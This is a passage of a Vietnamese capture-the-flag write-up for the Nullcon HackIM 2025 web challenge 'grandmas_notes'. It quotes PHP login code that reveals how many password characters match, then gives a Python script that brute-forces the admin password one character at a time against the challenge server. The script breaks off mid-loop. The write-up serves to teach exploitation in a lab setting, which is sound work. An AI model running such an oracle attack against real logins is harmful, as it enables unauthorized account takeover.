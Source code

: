 ```yaml
---
title: "[Write-up] Nullcon Berlin HackIM 2025 CTF"
published: 2025-09-05
tags: [CTF, Nullcon]
category: Write-up
description: Thật vui khi ghi được điểm trong cuộc thii
draft: false
image: /assets/data/2025-09-06-13-02-31.png
---
```


# web

## grandmas_notes

> My grandma is into vibe coding and has developed this web application to help her remember all the important information. It would work be great, if she wouldn't keep forgetting her password, but she's found a solution for that, too.

Đọc `source code` có thể thấy ở trang đăng nhập nó sẽ kiểm tra mật khẩu người dùng nhập có bao nhiêu kí tự đúng với tối đa là 16 kí tự

```python
$correct = 0;
$limit = min(count($chars), count($stored));
for ($i = 0; $i < $limit; $i++) {
    $enteredCharHash = sha256_hex($chars[$i]);
    if (hash_equals($stored[$i]['char_hash'], $enteredCharHash)) {
        $correct++;
    } else {
        break;
    }
}
$_SESSION['flash'] = "Invalid password, but you got {$correct} characters correct!";
```

Ta có thể `brute force` từng kí tự của mật khẩu tài khoản `admin` đăng nhập là lấy được flag

```python
import requests, string

BASE = "http://52.59.124.14:5015"
CHARSET = string.ascii_letters + string.digits + "_{}!@#$%^&*()-=+[];:,.?/ "

s = requests.Session()

def try_password(pw):
    r = s.post(BASE + "/login.php",
               data={"username":"admin","password":pw},
               allow_redirects=True)
    if "got" in r.text:
        import re
        m = re.search(r'got (\d+) characters correct', r.text)
        if m: return int(m.group(1))
    return 0

def recover(maxlen=16):
    pw=""
    for pos in range(maxlen):
        hit=None
        for ch in CHARSET:
            attempt = pw + ch
            correct = try_password(attempt)
```